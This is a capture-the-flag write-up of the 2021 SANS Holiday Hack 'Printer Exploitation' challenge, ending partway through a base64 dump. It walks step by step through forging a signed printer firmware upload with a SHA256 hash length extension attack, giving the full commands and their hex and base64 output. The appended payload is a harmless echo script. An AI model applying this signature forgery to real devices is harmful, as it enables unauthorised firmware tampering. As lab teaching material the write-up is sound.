

# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 7. Printer Exploitation
### 7.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree:   
Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

### 7.1. Hints
**Dropping Files** - *Ruby Cyster*: “Files placed in /app/lib/public/incoming will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).”
**Hash Extension Attacks** - *Ruby Cyster*: “[Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.”
**Dropping Files** - *Ruby Cyster*: “When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.”

### 7.2. Solution
#### 7.2.0. Reconnaissance
By inspecting the printer web page it is possible to spot that the firmware upload function is not password protected:  


Moreover the current firmware can be downloaded from the URL https://printer.kringlecastle.com/firmware/download:
```json
{"firmware":"UEsDBBQAAAAIAEWlkFMWoKjwagkAAOBAAAAMABwAZmlybXdhcmUuYmluVVQJAAOipLthoqS7YXV4CwABBAAAAAAEAAAAAO1bX2wcRxmfvfPZ5zpen9OEOE7Al5JIDuTOl6R2HVo3Pttnr9HFMakd1FBns/aufUfvj3u3R+wAIuBSOBWXPlSoD+0LeUklkCh9gQfUBFuVKihKHioiQZEJqeRGoF5UiFJIvczszrfemdtrygvwsJ90+9vvm+83M/vN7HrWO9+3EslhnyAgED96FBFtPGTp/dR+5ojtgm29qAkfP4M+jeqxXufw4zHlYzFot2PxLlI7j7sRi4ID61BtORNgEYU2eQGHzuNbAotOntlemNo5TAksOnkkNusRS1/vY1Gi1znuY3k+yrtDeXf6WFwTWIR41tHfKq2PxyHEIsRw/F1dJed76fXw+AhiEXhfwrx69MkFwn2CtlcrLm0+FiGsXZn0dM+DXRk1kknnSguRhd6eSM+D0WI+esjsU4j6joxNmv5kfkFoSfk2aiPld8/+qPmtt/e8JAy1hAZfOyVWfvuX6xB3GDeEvm0e4Rqvar/Lftz1ke6HXexN+LfVxd5Rw/54jXpSNezkuh9w6xCO1wwJTw+aL+lFJMszC4o8m84pmfQ5DaukXC7qSkGXs0o6h0aSowOD8qHooWg3kkcnjsmqVtDm0kVdK0wcG8zkc9qEMp0hzLlsPkeZsuXq6kjER8fAh+MqmLGFeVBqTzcS+0Gqw/jDfI61Wljh7BVaQWc/awf92lELYSxB1hx2v8O+7rA7nysVhz3gsN9x2J3zv42234A2550nnnjiiSeeeOKJJ578v4m09Neg9GzgnS58+t1Lus+4Ii2tBlfscqP7Oi4y9t3Ax5aOfnxGdPI2gt5bM7Ds+znWZ58H/4N/Gy1fPS2Vr0tLNyrjE8nlwCm8DJeWmz8gjS33XSZ1bp/FnL+3dAyZpldI28uBHxM4ckffjrvzKO1Oo7HW0nGe1LtCEfsvmv7dBQL7N6TLG36pXJEurx+VhDekqxv6NlzBdlpB0FibNdsB/vm+I7gIlbompaW+21FSY/ldfYv0bF97F3krxVe0nsKHNwKtWBemVrj23/s6LpzEHBy4UPmbd6VyqYL79EsRk9c2DOMXxOnNFdzo02Y84l8eLf8+fnK0fDs+GS9/FMcR2Td/AKFJaTlC8LHkflJVcL2IydLlj/z6roN/aOlAyfI/k+XbQ+X348a2P0pLK4J05J3STTI2X5mKPxGfip+Oy7hPaAXGkBk1TzzxxBNPPPHEE0888cQTTzxhRUA+NJwuZM8qBS2cLoZnS5nMYrg0H9bzYVXRtT3EZ5f/4V5kfe+6+75hkDfb3RXD+AnGAxgnMLbeMoxVjI9gvIHxJYwHBOu7q9nOuRNIWAgJu7Y0BJ8XGkLETr7tX8H1fd7RH3d/hPZS/3nsHyYOYmhYbPtiS9PZ4Hl0tP3hzx3e+wDwyTfuFPYLOuol3CfwL4H7azrGxdAzvsHm+incAOV8A//GcfkUKR8QQz/0JcS25/wJMbxclxA7fxCQxNgz9ZLYu9QwIvZ/VeyNi7G42DkghgfENuw/IAbN75skDilcj/P7oyeeeOKJJ5544oknnnjiyX9L7P2Ujv3JTtwCjrS8maqrlLeT6rBPcxfV4R2rnSLs19zNlf9jw8ibOt18CXsqr1Ed9lLGqH4f1b9DsYliG8XtiBV7T2e/BbAHE/zhvbKB4g6KUoC1f7+O7fclio1cff8yrOsB1w2qpyjfoDrEt0L1U7T8Q6o796L+LwT2lfPSE2J12F87Mjj4hXDnkDadVnLh3ujhaCzSs986uWdbfhyNiy6bY/14tFZd7X50w9VeZ88j1h6w5w9rr7fnGWtvsMeDtQftcWTtjfb8YO332fOItTdtbnhm7FtQ2NXejPpd7aKdj8HaW+z7k7WHXDeL+1Grva+ftW9FZ1zt99v3O2vfZt/nrH2763zyo0/Z+7JZ+47NRBHG3obCrvadKOZqb6+yWXkbtwzeTp5zPhzP81w8RWr/GWffQ+0Vzv6Q2cZmf+A+HzbPq+OTpfXEuPFaNP2r4/xijf7Xuq4LZtlWpO7hS9z9XzWP91f189dmPdXj+Bvqz/fzT+axel7dMuupHt+fCiQO1fdFg0DyIUR0icYH4rlDcM97yJr26nlyWHDPq0gIpMm2qvnTSvx91fdRskY9T9J6+HYXavTze9je6muzn58gLxC74z6Fx8oFGocztD9T1P4rRNrdiXq5ep6i/vB8gP+lviZY/vz1vk79u2n9kDuySvvJ+1+pcV03hRp5JzMFvaiXZmejM2gzg0TWs/IMSQ0hiShqXp7L5KeVjKzq+UJRVkoLaCafnc9ouqZGHzp8qNvdiWSvpGWlUFAWZS2nFxbRbEHJarJaymYXMcWhydhTZ13p/7hxt2R5+ET8WEJOjA2RBBbWV0Xy0ONj8WOjg2yJme+CTSNjk3JCojVIQyeQPJI8PhBPyseHhx9LTMgT8YFkQob8mpliyez1x2bUkPyc/n4m/0ZTFV2pTtLhvGTiZfeMTcuR1WJeTik5laTsjB7HBWo6J5eKmursG7lArE8Xi7QaMxVIlnH/IDw183vYjCK2ayhaXMzqyjRGvWBhCs7SOVzTPIrm8roWjQ+MRnRljmpzuVJ0upTOqJG0ikwtpRRTKKou5nB9FuoFq+RrWqGYzucYRcZlBS2jEEd6Np/RSZP4MslpdC6PT3RtAR/NcYkW8maoo1qKzp+UWtjULKo1BSwGnOMWlGx6BpEarUasenAoURTP5iyedm63x38qZJ1NnoWwDKqVJwnCf3P4LGJzkvi8wDDnzy9vDnJ8WI8B7r0Hn3xXuY3XusCHdRsg8GH55PxmQ2QMWWt/4MP6DvAitUO+F/BhnX4SsbmAsA4EhPcLED5+p5G1lgc+rBcBRa7/Pg6fRNa7AeiwrgQM1+g/yDlkxRT4sP4EvMS1z1//05Q/QHVYpwKCH1F3uPCfQ86cSFSVNwvvUSD8+Jc5Pqx7beT8+fTcFzg+rI8B+XgFOXyZ48PfScCnuAHnl9kXOD6sEwAbOX/++l9B7P3L5w/zf0N5/qscv1Z+bi3+6xwf1vmAQe76+Xi+iaw5Dq9Pdr5uxN2fj//b+Nfi4MN6s/IJ+X9GbM6mnQ9N+ZAHXc/xYBzJOlpw8OE95FqXhZ33aP8mx7fXs/R1N3wP/gccH9aN4RjbT54P8iG1AR/WZ7GYuz///NqgNv7tHPi1/n440S2fdRwqrN+sJ4Kqnx+Njr4z/B5K5yrn+99ag3+y18IGjsDz/w1QSwECHgMUAAAACABFpZBTFqCo8GoJAADgQAAADAAYAAAAAAAAAAAA7YEAAAAAZmlybXdhcmUuYmluVVQFAAOipLthdXgLAAEEAAAAAAQAAAAAUEsFBgAAAAABAAEAUgAAALAJAAAAAA==","signature":"2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97","secret_length":16,"algorithm":"SHA256"}
```

The downloaded file is a JSON with following fields:
 - `firmware`: A `base64` encoded string
 - `signature`: A `SHA256` hash
 - `secret_length`: Presumably the length of the secret
 - `algorithm`: Presumably the algorithm used for signing, which matches the `SHA265` hash of the signature

I decoded the `base64` payload and noticed it is a ZIP file:
```bash
[thedead@windovo original]$ cat firmware.b64 | base64 -d >> firmware
[thedead@windovo original]$ file firmware
firmware: Zip archive data, at least v2.0 to extract
```

I then extracted the ZIP and found the file `firmware.bin`:
```bash
[thedead@windovo original]$ unzip firmware
Archive:  firmware
  inflating: firmware.bin
[thedead@windovo original]$ file firmware.bin
firmware.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fc77960dcdd5219c01440f1043b35a0ef0cce3e2, not stripped
```

From a quick analysis it looked like an executable that just prints the message `Firmware is fully up to date`:
```bash
┌──(thedead㉿thinkali)-[original]
└─$ ./firmware.bin 
Firmware is fully up to date!
```

#### 7.2.1. Dummy firmware
At that point I modified the JSON so the firmware wouldn't match the signature:
```json
{"firmware":"dummy","signature":"dummy","secret_length":16,"algorithm":"SHA256"}
```
By uploading the JSON that invalidates the signature, the printer provides the following error:
```bash
Failed to verify the signature! Make sure you are signing the data correctly: sha256(<secret> + raw_file_data)
```

#### 7.2.2. Dummy firmware with hash extensions attack
I then used [https://github.com/iagox86/hash_extender](https://github.com/iagox86/hash_extender) to tamper the firmware payload maintaining a valid signature.
The file `dummy_payload_with_hash_extension.sh` that I used was a simple bash script printing some characters:
```bash
##!/bin/bash
echo "12345678901234568790123456789012345678901234567890"
```
Zipped it:
```bash
[thedead@windovo dummy_payload_with_hash_extension]$ zip dummy_payload_with_hash_extension.zip dummy_payload_with_hash_extension.sh
  adding: dummy_payload_with_hash_extension.sh (deflated 42%)
```
And ran `hash_extender` on it:
```bash
┌──(thedead㉿thinkali)-[~/Desktop/repos/hash_extender]
└─$ ./hash_extender --data $(xxd -p -c 10000 ../original/firmware.zip) --data-format=hex --append $(xxd -p -c 10000 ../dummy_payload_with_hash_extension/dummy_payload_with_hash_extension.zip) --append-format=hex --secret 16 --signature "2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97" --format sha256 --out-data-format=hex
Type: sha256
Secret length: 16
New signature: 5156082e41eda2f251d4af0775b0ca8d4b3b268f671e840a1330ad15efc60949
New string: 504b030414000000080045a5905316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc721c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe94524cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f208d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d3663ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f809c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1ddefb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3add7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2fe2f04f695f3d2136275d85f3b3238f88570e790369d5672e1dee8e1682cd2b3df3ab9675b7e1c8d8b2e9b63fd78b4565ded7e74c3d55e67cf23d61eb0e70f6bafb7e7196b6fb0c783b507ed7164ed8df6fc60edf7d9f388b5376d6e7866ec5b50d8d5de8cfa5deda29d8fc1da5becfb93b5875c378bfb51abbdaf9fb56f45675cedf7dbf73b6bdf66dfe7ac7dbbeb7cf2a34fd9fbb259fb8ecd4411c6de86c2aef69d28e66a6fafb259791bb70cde4e9e733e1ccff35c3c456aff1967df43ed15cefe90d9c6667fe03e1f36cfabe393a5f5c4b8f15a34fdabe3fc628dfed7baae0b66d956a4eee14bdcfd5f358ff757f5f3d7663dd5e3f81beacff7f34fe6b17a5edd32eba91edf9f0a240ed5f7458340f221447489c607e2b94370cf7bc89af6ea79725870cfab4808a4c9b6aaf9d34afc7dd5f751b2463d4fd27af876176af4f37bd8deea6bb39f9f202f10bbe33e85c7ca051a8733b43f53d4fe2b44dadd897ab97a9ea2fef07c80ffa5be2658fefcf5be4efdbb69fd903bb24afbc9fb5fa9715d37851a79273305bda8976667a33368338344d6b3f20c490d2189286a5e9ecbe4a7958caceaf94251564a0b68269f9dcf68baa6461f3a7ca8dbdd8964afa465a5505016652da71716d16c41c96ab25aca661731c5a1c9d853675de9ffb871b76479f844fc58424e8c0d910416d65745f2d0e363f163a3836c8999ef824d2363937242a235484327903c923c3e104fcac787871f4b4cc813f181644286fc9a9962c9ecf5c766d490fc9cfe7e26ff4653155da94ed2e1bc64e265f78c4dcb91d5625e4e293995a4ec8c1ec7056a3a27978a9aeaec1bb940ac4f178bb41a3315489671ff203c35f37bd88c22b66b285a5ccceaca3446bd60610aced2395cd33c8ae6f2ba168d0f8c4674658e6a73b95274ba94cea891b48a4c2da5145328aa2ee6707d16ea05abe46b5aa198cee71845c665052da310477a369fd14993f832c969742e8f4f746d011fcd718916f266a8a35a8ace9f945ad8d42caa35052c069ce316946c7a06911aad46ac7a70285114cfe62c9e766eb7c77f2a649d4d9e85b00caa952709c27f73f82c627392f8bcc030e7cf2f6f0e727c588f01eebd079f7c57b98dd7bac087751b20f061f9e4fc6643640c596b7fe0c3fa0ef022b543be17f0619d7e12b1b980b00e0484f70b103e7ea791b596073eac170145aeff3e0e9f44d6bb01e8b0ae040cd7e83fc83964c514f8b0fe04bcc4b5cf5fffd3943f407558a702821f5177b8f09f43ce9c485495370bef5120fcf897393eac7b6de4fcf9f4dc17383eac8f01f97805397c99e3c3df49c0a7b801e797d917383eac13001b397ffefa5f41ecfdcbe70ff37f4379feab1cbf567e6e2dfeeb1c1fd6f98041eefaf978be89ac390eaf4f76be6ec4dd9f8fffdbf8d7e2e0c37ab3f209f97f466ccea69d0f4df990075dcff1601cc93a5a70f0e13de45a97859df768ff26c7b7d7b3f475377c0ffe071c1fd68de118db4f9e0ff221b5011fd667b198bb3ffffcdaa036feed1cf8b5fe7e38d12d9f751c2aacdfac2782aa9f1f8d8ebe33fc1e4ae72ae7fbdf5a837fb2d7c2068ec0f3ff0d504b01021e0314000000080045a5905316a0a8f06a090000e04000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003a2a4bb6175780b000104000000000400000000504b0506000000000100010052000000b00900000000800000000000000000000000000000000000000000005140504b03041400000008008aa52b54bb4a7965290000004600000024001c0064756d6d795f7061796c6f61645f776974685f686173685f657874656e73696f6e2e7368555409000313dedd613fdedd6175780b000104e803000004e80300005356d44fcaccd34f4a2ccee04a4dcec8575032343236313533b7b03480b02ccc612c84182a4b890b00504b01021e031400000008008aa52b54bb4a79652900000046000000240018000000000001000000a4810000000064756d6d795f7061796c6f61645f776974685f686173685f657874656e73696f6e2e7368555405000313dedd6175780b000104e803000004e8030000504b050600000000010001006a000000870000000000
```
Reconverted the hex payload back to a zip file:
```bash
[thedead@windovo dummy_payload_with_hash_extension]$ echo "504b030414000000080045a5905316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc721c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe94524cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f208d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d3663ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f809c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1ddefb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3add7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2fe2f04f695f3d2136275d85f3b3238f88570e790369d5672e1dee8e1682cd2b3df3ab9675b7e1c8d8b2e9b63fd78b4565ded7e74c3d55e67cf23d61eb0e70f6bafb7e7196b6fb0c783b507ed7164ed8df6fc60edf7d9f388b5376d6e7866ec5b50d8d5de8cfa5deda29d8fc1da5becfb93b5875c378bfb51abbdaf9fb56f45675cedf7dbf73b6bdf66dfe7ac7dbbeb7cf2a34fd9fbb259fb8ecd4411c6de86c2aef69d28e66a6fafb259791bb70cde4e9e733e1ccff35c3c456aff1967df43ed15cefe90d9c6667fe03e1f36cfabe393a5f5c4b8f15a34fdabe3fc628dfed7baae0b66d956a4eee14bdcfd5f358ff757f5f3d7663dd5e3f81beacff7f34fe6b17a5edd32eba91edf9f0a240ed5f7458340f221447489c607e2b94370cf7bc89af6ea79725870cfab4808a4c9b6aaf9d34afc7dd5f751b2463d4fd27af876176af4f37bd8deea6bb39f9f202f10bbe33e85c7ca051a8733b43f53d4fe2b44dadd897ab97a9ea2fef07c80ffa5be2658fefcf5be4efdbb69fd903bb24afbc9fb5fa9715d37851a79273305bda8976667a33368338344d6b3f20c490d2189286a5e9ecbe4a7958caceaf94251564a0b68269f9dcf68baa6461f3a7ca8dbdd8964afa465a5505016652da71716d16c41c96ab25aca661731c5a1c9d853675de9ffb871b76479f844fc58424e8c0d910416d65745f2d0e363f163a3836c8999ef824d2363937242a235484327903c923c3e104fcac787871f4b4cc813f181644286fc9a9962c9ecf5c766d490fc9cfe7e26ff4653155da94ed2e1bc64e265f78c4dcb91d5625e4e293995a4ec8c1ec7056a3a27978a9aeaec1bb940ac4f178bb41a3315489671ff203c35f37bd88c22b66b285a5ccceaca3446bd60610aced2395cd33c8ae6f2ba168d0f8c4674658e6a73b95274ba94cea891b48a4c2da5145328aa2ee6707d16ea05abe46b5aa198cee71845c665052da310477a369fd14993f832c969742e8f4f746d011fcd718916f266a8a35a8ace9f945ad8d42caa35052c069ce316946c7a06911aad46ac7a70285114cfe62c9e766eb7c77f2a649d4d9e85b00caa952709c27f73f82c627392f8bcc030e7cf2f6f0e727c588f01eebd079f7c57b98dd7bac087751b20f061f9e4fc6643640c596b7fe0c3fa0ef022b543be17f0619d7e12b1b980b00e0484f70b103e7ea791b596073eac170145aeff3e0e9f44d6bb01e8b0ae040cd7e83fc83964c514f8b0fe04bcc4b5cf5fffd3943f407558a702821f5177b8f09f43ce9c485495370bef5120fcf897393eac7b6de4fcf9f4dc17383eac8f01f97805397c99e3c3df49c0a7b801e797d917383eac13001b397ffefa5f41ecfdcbe70ff37f4379feab1cbf567e6e2dfeeb1c1fd6f98041eefaf978be89ac390eaf4f76be6ec4dd9f8fffdbf8d7e2e0c37ab3f209f97f466ccea69d0f4df990075dcff1601cc93a5a70f0e13de45a97859df768ff26c7b7d7b3f475377c0ffe071c1fd68de118db4f9e0ff221b5011fd667b198bb3ffffcdaa036feed1cf8b5fe7e38d12d9f751c2aacdfac2782aa9f1f8d8ebe33fc1e4ae72ae7fbdf5a837fb2d7c2068ec0f3ff0d504b01021e0314000000080045a5905316a0a8f06a090000e04000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003a2a4bb6175780b000104000000000400000000504b0506000000000100010052000000b00900000000800000000000000000000000000000000000000000005140504b03041400000008008aa52b54bb4a7965290000004600000024001c0064756d6d795f7061796c6f61645f776974685f686173685f657874656e73696f6e2e7368555409000313dedd613fdedd6175780b000104e803000004e80300005356d44fcaccd34f4a2ccee04a4dcec8575032343236313533b7b03480b02ccc612c84182a4b890b00504b01021e031400000008008aa52b54bb4a79652900000046000000240018000000000001000000a4810000000064756d6d795f7061796c6f61645f776974685f686173685f657874656e73696f6e2e7368555405000313dedd6175780b000104e803000004e8030000504b050600000000010001006a000000870000000000" | xxd -r -p > dummy_payload_with_hash_extension.zip 

[thedead@windovo dummy_payload_with_hash_extension]$ file dummy_payload_with_hash_extension.zip
dummy_payload_with_hash_extension.zip: Zip archive data, at least v2.0 to extract

[thedead@windovo dummy_payload_with_hash_extension]$ base64 dummy_payload_with_hash_extension.zip | tr -d "\n"
UEsDBBQAAAAIAEWlkFMWoKjwagkAAOBAAAAMABwAZmlybXdhcmUuYmluVVQJAAOipLthoqS7YXV4CwABBAAAAAAEAAAAAO1bX2wcRxmfvfPZ5zpen9OEOE7Al5JIDuTOl6R2HVo3Pttnr9HFMakd1FBns/aufUfvj3u3R+wAIuBSOBWXPlSoD+0LeUklkCh9gQfUBFuVKihKHioiQZEJqeRGoF5UiFJIvczszrfemdtrygvwsJ90+9vvm+83M/vN7HrWO9+3EslhnyAgED96FBFtPGTp/dR+5ojtgm29qAkfP4M+jeqxXufw4zHlYzFot2PxLlI7j7sRi4ID61BtORNgEYU2eQGHzuNbAotOntlemNo5TAksOnkkNusRS1/vY1Gi1znuY3k+yrtDeXf6WFwTWIR41tHfKq2PxyHEIsRw/F1dJed76fXw+AhiEXhfwrx69MkFwn2CtlcrLm0+FiGsXZn0dM+DXRk1kknnSguRhd6eSM+D0WI+esjsU4j6joxNmv5kfkFoSfk2aiPld8/+qPmtt/e8JAy1hAZfOyVWfvuX6xB3GDeEvm0e4Rqvar/Lftz1ke6HXexN+LfVxd5Rw/54jXpSNezkuh9w6xCO1wwJTw+aL+lFJMszC4o8m84pmfQ5DaukXC7qSkGXs0o6h0aSowOD8qHooWg3kkcnjsmqVtDm0kVdK0wcG8zkc9qEMp0hzLlsPkeZsuXq6kjER8fAh+MqmLGFeVBqTzcS+0Gqw/jDfI61Wljh7BVaQWc/awf92lELYSxB1hx2v8O+7rA7nysVhz3gsN9x2J3zv42234A2550nnnjiiSeeeOKJJ578v4m09Neg9GzgnS58+t1Lus+4Ii2tBlfscqP7Oi4y9t3Ax5aOfnxGdPI2gt5bM7Ds+znWZ58H/4N/Gy1fPS2Vr0tLNyrjE8nlwCm8DJeWmz8gjS33XSZ1bp/FnL+3dAyZpldI28uBHxM4ckffjrvzKO1Oo7HW0nGe1LtCEfsvmv7dBQL7N6TLG36pXJEurx+VhDekqxv6NlzBdlpB0FibNdsB/vm+I7gIlbompaW+21FSY/ldfYv0bF97F3krxVe0nsKHNwKtWBemVrj23/s6LpzEHBy4UPmbd6VyqYL79EsRk9c2DOMXxOnNFdzo02Y84l8eLf8+fnK0fDs+GS9/FMcR2Td/AKFJaTlC8LHkflJVcL2IydLlj/z6roN/aOlAyfI/k+XbQ+X348a2P0pLK4J05J3STTI2X5mKPxGfip+Oy7hPaAXGkBk1TzzxxBNPPPHEE0888cQTTzxhRUA+NJwuZM8qBS2cLoZnS5nMYrg0H9bzYVXRtT3EZ5f/4V5kfe+6+75hkDfb3RXD+AnGAxgnMLbeMoxVjI9gvIHxJYwHBOu7q9nOuRNIWAgJu7Y0BJ8XGkLETr7tX8H1fd7RH3d/hPZS/3nsHyYOYmhYbPtiS9PZ4Hl0tP3hzx3e+wDwyTfuFPYLOuol3CfwL4H7azrGxdAzvsHm+incAOV8A//GcfkUKR8QQz/0JcS25/wJMbxclxA7fxCQxNgz9ZLYu9QwIvZ/VeyNi7G42DkghgfENuw/IAbN75skDilcj/P7oyeeeOKJJ5544oknnnjiyX9L7P2Ujv3JTtwCjrS8maqrlLeT6rBPcxfV4R2rnSLs19zNlf9jw8ibOt18CXsqr1Ed9lLGqH4f1b9DsYliG8XtiBV7T2e/BbAHE/zhvbKB4g6KUoC1f7+O7fclio1cff8yrOsB1w2qpyjfoDrEt0L1U7T8Q6o796L+LwT2lfPSE2J12F87Mjj4hXDnkDadVnLh3ujhaCzSs986uWdbfhyNiy6bY/14tFZd7X50w9VeZ88j1h6w5w9rr7fnG